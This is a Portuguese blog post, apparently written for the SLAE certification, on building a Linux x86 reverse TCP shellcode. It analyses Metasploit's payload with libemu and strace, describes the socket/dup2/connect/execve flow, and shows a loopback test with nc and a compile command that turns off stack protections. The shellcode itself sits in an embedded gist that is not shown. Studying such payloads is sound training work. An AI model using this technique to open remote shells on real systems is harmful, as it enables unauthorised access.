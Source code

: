```yaml
---
layout: post
title: SLAE - 2nd Assignment - Shell Reverse TCP
date: '2013-03-20T00:40:00.000-03:00'
author: geyslan
categories: blog
excerpt: ""
tags: [slae, shellcode, linux, code, assembly, hacking, reverse engineering, portuguese]
share: true
modified: '2013-06-06T22:44:21.128-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1069667985052517024
blogger_orig_url: http://www.hackingbits.com/2013/03/slae-2nd-assignment-shell-reverse-tcp.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind
TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/2nd.assignment)*.

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-833.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

##Segundo Exame

###Criar um shellcode de Shell Reverse TCP

- Executar um shell ao conectar no host reverso.
- Tornar fácil a configuração dos IP e porta.

Como material, analisar o linux/x86/shell_reverse_tcp do Metasploit usando o libemu.

##libemu - sctest - strace - man

Comecei gerando o fluxograma do shellcode do Metasploit.

{% highlight console %}
$ msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 R | /opt/libemu/bin/sctest -Ss 100000 -vvv -G shell_reverse_tcp_metasploit.dot

$ dot shell_reverse_tcp_metasploit.dot -T png -o shell_reverse_tcp_metasploit.png
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp_metasploit.png" caption="Fluxograma do shell_reverse_tcp_metasploit" %}

Vê-se que, diferentemente dos shell_bind_tcp nos quais trabalhamos nos posts
anteriores, o shell_reverse_tcp, logo após a criação do socket (socket), faz a
duplicação (dup2) dos files descriptors e já efetua a conexão (connect) nos
endereço e porta definidos para finalmente executar (execve) o "/bin/sh".

Usei também o [strace](http://linux.die.net/man/1/strace) para analisar o
[netcat](http://linux.die.net/man/1/nc), como complemento ao libemu. O que me me
poupou tempo, pois não precisei reconstruir o binário para entender melhor a
syscall [connect](http://linux.die.net/man/3/connect); e nem é necessário
comentar que o uso do man deixou o meu .bash_history um pouquinho mais gordo. =D

{% highlight console %}
$ nc -l 127.0.0.1 55555
{% endhighlight %}

Em outro terminal.

{% highlight console %}

# strace -e socket,connect nc 127.0.0.1 55555
...
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(55555), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
{% endhighlight %}

Com as novas informações anotadas e revisadas, construí de primeira o shellcode
enxuto em assembly nasm.

{% gist geyslan/5201682 %}

Por conta da possibilidade trivial de se configurar a porta e o IP, o shellcode
só estará livre de null-bytes caso esses valores não tenham numeração em hexa
x00. Entretanto, se o null-byte realmente impossibilitar a utilização do
shellcode, temos outras maneiras de darmos bypass. Em próximos posts veremos
isso.

O shellcode final teve um aumento de 4 bytes, ficando com  72 (metasploit = 68).
Esse acréscimo se deu pela propriedade da configuração do IP e da Porta nos seus
primeiros bytes. Mesmo com as instruções diferentes, o resultado foi igual.
Vejam.

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp.png" caption="Fluxograma do shell_reverse_tcp" %}

###Testando

{% highlight console %}
$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

*Terminal host*
{% highlight console %}
$ nc -l 127.1.1.1 55555
{% endhighlight %}

*Terminal cliente*
{% highlight console %}
$ ./shellcode
{% endhighlight %}

*Terminal host novamente*
{% highlight console %}
$ netstat -anp | grep shell
tcp        0      0 127.0.0.1:51600   127.1.1.1:55555   ESTABLISHED   976/shellcode
{% endhighlight %}

##Reversing (Gotcha)

Mais um shellcode construído: Shell Reverse TCP (Linux/x86) com IP e porta
facilmente configuráveis (segundo ao quinto e nono ao décimo byte,
respectivamente).

*P.S.* Se você encontrar alguma forma de reduzir a quantidade de bytes do
shellcode apresentado, entre em contato para discutirmos. Com todo prazer,
farei as alterações colocando os devidos créditos.

*[]*

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[libemu](http://libemu.carnivore.it/)<br>
[Metasploit](http://www.metasploit.com/)<br>
[Metasploit Unleashed - Offensive Security](http://www.offensive-security.com/metasploit-unleashed/Main_Page)<br>
[Berkeley Sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)<br>
[Shell-Storm](http://www.shell-storm.org/)<br>
[exploit-db](http://www.exploit-db.com/)<br>
[Project Shellcode](http://www.projectshellcode.com/)<br>
[Endianness](https://en.wikipedia.org/wiki/Endianness)<br>
[Linux Assembly](http://asm.sourceforge.net/)<br>
[Introdução à Arquitetura de Computadores - bugseq team - Tiago Natel (i4k)](https://code.google.com/p/bugsec/wiki/AssemblyArqComp)<br>
[Construindo Shellcodes - Victor Mello (m0nad)](http://0fx66.com/files/zines/cogumelo-binario/edicoes/1/ConstruindoShellcodes.txt)<br>
[Understanding Intel Instruction Sizes - William Swanson](http://www.swansontec.com/sintel.html)<br>
[The Art of Picking Intel Registers - William Swanson](http://www.swansontec.com/sregisters.html)<br>
[Smashing The Stack For Fun And Profit - Aleph One](http://insecure.org/stf/smashstack.html)<br>
[Get all shellcode on binary - commandlinefu](http://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)<br>
